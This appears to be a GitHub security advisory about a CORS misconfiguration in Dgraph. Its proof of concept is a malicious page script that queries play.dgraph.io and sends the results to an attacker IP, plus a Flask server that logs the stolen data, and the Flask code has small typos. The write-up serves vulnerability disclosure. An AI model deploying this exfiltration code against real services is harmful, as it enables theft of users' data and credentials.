 ### Summary
It is possible to steal sensitive information from the platform such as logs, browser sessions, settings containing private API KEYS from other services; it is possible to make a user delete a project, send a message, etc. due to CORS misconfiguration.

Because the locally deployed dgraph service does not have relevant data, play.dgraphit.io is used for demonstration here

### Detail
Due to incorrect settings here
![image](https://github.com/user-attachments/assets/7330cfff-fcc8-4de1-b4f4-252aaa47c4a0)


1.We need to create an HTML file that can be deployed on the attacker's server, assuming it is accidentally accessed by the victim
The main task of this HTML is to access API interfaces in play.dgraphit.io that have vulnerabilities due to incorrect configuration, and return the resulting data obtained from the access to the attacker
```
<script>
fetch('https://play.dgraph.io/query?timeout=20s', {
  method: 'POST', 
  headers: {
    'Content-Type': 'application/graphql+-'
  },
  body: `
  {
      samples(func: has(<NRHP>), first: 10) {
          uid
          expand(_all_) {
            uid
            expand(_all_)
          }
      }
  }
  ` 
})
  .then(response => response.text()) 
  .then(data => {
    console.log('Got sensitive data:', data); 


    fetch('http://192.168.137.10:5000/steal-data', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json'
      },
      body: JSON.stringify({ stolenData: data }) 
    })
    .then(response => response.text())
    .then(result => {
      console.log('send data success', result);
    })
    .catch(error => {
      console.error('send data failed:', error); 
    });
  })
  .catch(error => {
    console.error('No data:', error);
  });

</script>

```



2.The attacker also needs to create an HTTP server to receive the data
```
om flask import Flask, request
from flask_cors import CORS

app = Flask(__name__)
CORS(app)  

@app.route('/steal-data', methods=['POST'])
def steal_data():
    data = request.get_json()
    
    if data:
        print(f"Received data: {data}")
        with open('stolen_data.txt', 'a') as f:
            f.write(str(data) + '\n')
        return "Got data", 200
    else:
        return ,400

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```
At the end, we obtained the data
![image](https://github.com/user-attachments/assets/7027ae92-730b-4aad-93c5-5bf8469105bf)


### Impact
dgraph/x /x.go 


### Refer 
[Github Origin](https://github.com/dgraph-io)
[Github security](https://github.com/dgraph-io/dgraph/security/advisories/GHSA-jvx8-g626-pxr6)
